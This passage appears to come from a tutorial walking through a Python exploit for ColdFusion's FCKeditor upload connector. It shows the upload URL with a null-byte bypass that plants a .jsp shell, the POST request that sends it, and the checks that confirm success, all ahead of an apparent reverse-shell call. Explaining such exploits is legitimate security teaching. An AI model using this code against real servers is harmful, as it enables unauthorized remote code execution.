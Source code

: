 We also have another very important variable here which is URL:
```py
url = f"{rhost}/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/{shell_name}.jsp%00"
```

Using python formatting, I am passing `rhost` or the target URL to this variable, I am also passing a unique `shell_name` that ends with `.jsp` extension and a `nullbyte` character, this character is also called nullbyte termination character which terminates a string so the string is read as `shell_name.jsp` and then the application detects a string terminator and that's where it stops and you can upload your shell as `shell.jsp` which is also a bypass to upload files that are not allowed to be uploaded.

Then there is another variable with a pre-set value that determines whether our shell upload was successful or not:
```py
upload_status = False
```
By default it is set to `False` but depending on our conditional statements it's value can change to `True`.


After all that, we have a try:except clause to execute and catch exceptions if there are any:
```py
try:
    upload = requests.post(url=url, files=file, verify=False, timeout=30)
    if not 'The form field NewFile did not contain a file.' in upload.text and not 'An exception occurred when performing a file operation' in upload.text:
        upload_status = True
    else:
        upload_status = False
except Exception as e:
    print(e)
    sys.exit()
```

In this first line we upload the shell through a `POST` request and then we have two conditions to determine whether our upload was successful or not. When we send the `POST` request, we get a response in various forms but here I explicitly take that response in form of `text` then I check if the string `The form field NewFile did not contain a file.` & `An exception occurred when performing a file operation` is NOT inside response text.

The string that I am checking is self explanatory, recall that `NewFile` is the same `key` that we used earlier in `file` variable. Then we change the value of `upload_status` to `True`.

If something goes wrong or if `The form field NewFile did not contain a file.` & `An exception occurred when performing a file operation` is found in website's response then `upload_status` remains `False`.

The exception handler will throw exceptions if there are any, such as timeout error if our request takes longer than 30 seconds, we will get a timeout error and then it simply exits the program.

Our function finally returns the `upload_status` which is either `True` or `False`.

<br>

> `upload = shell_upload(rhost=rhost, lhost=lhost, lport=lport)`
